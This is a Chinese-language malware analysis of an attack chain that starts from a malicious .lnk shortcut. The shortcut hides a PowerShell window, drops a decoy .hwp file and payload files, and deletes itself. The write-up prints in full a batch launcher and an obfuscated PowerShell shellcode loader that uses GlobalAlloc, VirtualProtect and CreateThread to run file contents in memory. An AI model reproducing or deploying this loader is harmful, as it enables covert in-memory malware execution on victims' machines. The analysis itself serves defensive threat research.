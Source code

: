 -   以隐藏属性打开cmd窗口，指定路径递归寻找powershell.exe脚本执行嵌入的C#代码。
-   在动态链接库 User32.dll 中调用 FindWindow 和 ShowWindow 函数，过调用 FindWindow 函数查找名为"powershell.exe"的窗口，并通过 ShowWindow 函数隐藏该窗口。
-   获取当前目录路径，如果路径包含"System32"或"Program Files"，则将一个参数目录路径设置为"%temp%"。
-   用地址偏移的方法在当前 lnk 文件定位载荷，新建数组存储并释放成文件。
    1.  在 lnk 文件相同路径释放'【lnk 同名】.hwp'文件，并且执行。
    2.  在%public%路径释放'public.dat'文件。
    3.  在%temp%路径释放'temp.dat'文件。
    4.  在%temp%路径释放'working.bat'文件。
-   执行"working.bat"文件。
-   关闭.lnk 文件。
-   删除原始.lnk 文件。

## shellcode 加载准备阶段

初始载荷释放并且执行了"working.bat"，这个“.bat”脚本就是后续载荷执行的起点了。"working.bat"内容如下，功能为创建隐藏窗口 powershell 进程，读取“temp.dat”文本文件并放入内存中执行。

```bash
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden 
"$stringPath=$env:temp+'\'+'temp.dat';
$stringByte = Get-Content -path $stringPath -encoding byte;
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$scriptBlock = [scriptblock]::Create($string);
&$scriptBlock;
"
```

“temp.dat”脚本内容如下，此脚本也是一个典型的 shellcode 加载和执行的过程，读取 public.dat 文件中的二进制数据，然后在内存中分配空间，将数据写入该空间，最后创建一个线程来执行这段内存中的代码。

详细功能描述写成注释在代码中。

```bash
## 构建 public.dat 文件的完整路径，并读取 public.dat 文件的二进制内容。
$exePath=$env:public+'\'+'public.dat';
$exeFile = Get-Content -path $exePath -encoding byte;
 [Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
## windowsAPI 函数的声明，并通过 Add-Type 添加到 PowerShell 环境中
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
##  获取 public.dat 文件的字节数。
$byteCount = $exeFile.Length;
##  在内存中分配空间
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);
$old = 0;
##  修改内存区域的保护属性，将其设置为可执行。
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);
## 将 public.dat 文件的内容写入分配的内存空间中
 for($i = 0;
$i -lt $byteCount;
$i++) { [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
 };
 ## 创建一个线程，将分配的内存区域的地址作为线程的入口点。
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);
```